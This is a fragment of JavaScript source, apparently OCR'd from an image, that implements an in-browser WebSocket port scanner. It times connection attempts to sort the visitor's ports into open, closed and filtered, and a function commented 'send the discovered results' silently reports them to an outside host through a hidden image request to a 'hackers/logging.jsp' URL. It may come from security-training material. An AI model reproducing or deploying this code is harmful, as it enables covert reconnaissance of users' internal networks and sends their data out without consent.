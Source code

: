       function check_ps_ws(){	
          var interval = (new Date).getTime() - start_time;
          if (ws.readyState == 0) {	
              if (interval > closed_port_max) {	
                  log(current_port + " is time exceeded");
                  ps_timeout_ports.push(current_port);		
                  setTimeout("scan_ports_ws()", 1);	
              } else {	
                  setTimeout("check_ps_ws()", 5);		
              }	
          } else {	
              if (interval < open_port_max) {		
                  log(current_port + " is open");		
                  ps_open_ports.push(current_port);	
              } else {		
                  log(current_port + " is closed");	
                  ps_closed_ports.push(current_port);	
              } 
              setTimeout("scan_ports_ws()", 1);
          }
      }
      
      function init_port_ps(){	
          if (current_port == 0) {	
              current_port = start_port;
          } else if (current_port == end_port) {		
              /*		
              document.getElementById('resultOpen').innerHTML = ps_open_ports + "&nbsp;";		
              document.getElementById('resultClosed').innerHTML = ps_closed_ports + "&nbsp;";		
              document.getElementById('resultFiltered').innerHTML = ps_timeout_ports + "&nbsp;";		
              */		
              
              // 알아낸 결과 전송
              new Image().src = "http://openeq.com:8181/openeg/websocket/hackers/logging.jsp?open="+encodeURIComponent(ps_open_ports)								+"&closed="+encodeURIComponent(ps_closed_ports)								+"&filtered="+encodeURIComponent(ps_timeout_ports);	
              return true;	
          } else {	
              current_port++;	
          }	
          
          return false;
      }
      
      function is_blocked(port_no){
          for (var i = 0; i < blocked_ports.length; i++) {	
              if (blocked_ports[i] == port_no) {	
                  return true;	
              }	
          }	
          
          return false;
      }
      